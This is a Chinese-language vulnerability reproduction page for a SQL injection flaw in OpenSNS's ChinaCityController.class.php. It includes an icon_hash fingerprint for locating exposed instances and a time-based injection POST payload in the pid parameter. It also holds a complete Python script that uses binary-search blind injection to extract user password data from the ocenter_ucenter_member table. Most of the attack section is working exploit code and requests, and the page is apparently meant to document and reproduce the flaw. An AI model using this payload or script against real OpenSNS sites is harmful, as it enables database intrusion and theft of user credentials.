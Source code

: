 # OpenSNS ChinaCityController.class.php SQL注入漏洞

## 漏洞描述

OpenSNS ChinaCityController.class.php文件中，可通过拼接SQL语句执行任意SQL命令，获取用户账号密码

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc.png)

存在漏洞的文件为`Addons/ChinaCity/Controller/ChinaCityController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634530581898-96bfb012-9b06-4000-8688-3f60e59fe5af.png)

其中用户可控参数为 cid 和 pid, 通过调试查看SQL语句

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634530661937-f8552b8b-a5c2-4633-9cef-e20b31154085.png)

通过构造请求闭合SQL语句，造成SQL注入

```php
POST /index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html

cid=0&pid[0]==(select*from(select+sleep(3)union/**/select+1)a)and+1+in+&pid[1]=1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634531129827-a6c0bd01-e6e8-41a8-a7aa-0d0349843d9e.png)

通过二分法延时注入可以获取用户账号密码，登录后台

```php
import time
import requests

url = "http://peiqi.com:8888/index.php?s=/home/addons/_addons/china_city/_controller/china_city/_action/getcity.html"

flag = ""
for i in range(1,100):
    low = 32
    high = 128
    while low < high:
        headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "X-Requested-With": "XMLHttpRequest"
        }
        mid = (low + high)//2
        data = "cid=0&pid[0]==(select*from(select+if(ascii(substr((select/**/password/**/from/**/ocenter_ucenter_member),{},1))<{},sleep(2),1)union/**/select+1)a)and+3+in+&pid[1]=3".format(i,mid)
        timeStart = time.time()
        r = requests.post(url=url, data=data, headers=headers)
        timeEnd = time.time()
        # print(r.text, low, high, data,timeStart-timeEnd)
        if timeEnd - timeStart >= 1: 
            high = mid
        else:
            low = mid + 1
    if low == high == 32:
        print("No  result")
        break
    flag += chr((high + low - 1)//2)
    print(flag)
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634531377138-0fc38dc3-684c-41d1-a3bb-974274f025fd.png)